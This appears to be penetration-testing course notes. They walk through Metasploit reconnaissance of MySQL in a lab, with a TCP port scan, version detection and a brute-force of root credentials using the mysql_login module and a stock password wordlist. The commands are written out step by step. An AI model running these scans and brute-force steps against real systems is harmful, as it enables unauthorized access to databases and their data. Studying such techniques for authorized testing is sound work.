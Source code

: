 ## Demo: Web Server Enumeration

## MYSQL Enumeration

- My SQL is a relational database management system based on SQL
- It is typically used to store records, customer data, and is most commonly deployed to store web application data.
- MySQL utilizes TCP port 3306 by default, however, like any service it can be hosted on any open TCP port.
- We can utilize auxiliary modules to enumerate the version of MySQL, perfon brute-force attacks to identify passwords, execute SQL queries and much more.

## Demo: MYSQL Enumeration

`ifconfig`

`service postgresql start && msfconsole`

msf6:`workspace -a MYSQL_ENUM`

msf6:`setg rhosts [targetIP]`

msf6:`setg rhost [targetIP]`

msf6:`search portscan`

msf6:`use auxiliary/scanner/portscan/tcp`

msf6:`show options`

msf6:`run`

msf6:`search type:auxiliary name:mysql`

msf6:`use auxiliary/scanner/mysql/mysql_version`

msf6:`show options`

msf6:`run`

We got MYSQL on v5.5.61. because there is no exploit for this version, we perform a brute-force for root-credentials:

msf6:`seach mysql_login`

msf6:`use auxiliary/scanner/mysql/mysql_login`

msf6:`show options`

msf6:`set username root`

msf6:`set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

msf6:`set verbose false`

msf6:`run`

We obtained the credentials.
